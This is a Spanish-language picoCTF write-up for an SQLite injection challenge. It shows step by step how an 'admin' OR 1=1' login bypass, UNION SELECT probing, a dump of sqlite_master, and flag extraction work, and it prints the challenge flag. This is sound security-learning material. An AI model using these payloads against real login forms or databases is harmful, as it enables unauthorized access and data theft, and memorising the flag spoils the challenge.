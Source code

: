 ## Descripción
Can you find the flag on this website.Try to find the flag [here](http://saturn.picoctf.net:59941/).
## Pistas
SQLiLite
## Solución 1
1. Primero probamos las credenciales `admin, admin`
2. Vemos que nos arroja la consulta SQL utilizada
```sql
username: admin
password: admin
SQL query: SELECT id FROM users WHERE password = 'admin' AND username = 'admin'
```
3. Construimos una consulta que siempre devuelva verdadero, haciendo la inyección en el campo de contraseña.
```sql
username: admin
password: admin' OR 1=1;
SQL query: SELECT id FROM users WHERE password = 'admin'' OR 1=1; AND username = 'admin'
```
4. Nos da acceso, podemos ver que hay un campo de busqueda, por lo que podemos intentar para ver si la inyección se realiza
`' UNION SELECT 1,2,3;`
5. Vemos que la inyección se realiza, asi que podemos buscar en las demás tablas del esquema
`' UNION SELECT 1,2,sql FROM sqlite_master;`
```sql
CREATE TABLE hints (id INTEGER NOT NULL PRIMARY KEY, info TEXT)
CREATE TABLE more_table (id INTEGER NOT NULL PRIMARY KEY, flag TEXT)
CREATE TABLE offices (id INTEGER NOT NULL PRIMARY KEY, city TEXT, address TEXT, phone TEXT)
CREATE TABLE users (name TEXT NOT NULL PRIMARY KEY, password TEXT, id INTEGER)
```
6. Podemos acceder a la tabla `more_table`, que tiene una columna llamada `flag`.
`' UNION SELECT 1,2,flag FROM more_table;`
7. Obtenemos la bandera `picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8b7cc2a}`


`picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8b7cc2a}`
## Notas adicionales

## Referencias
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md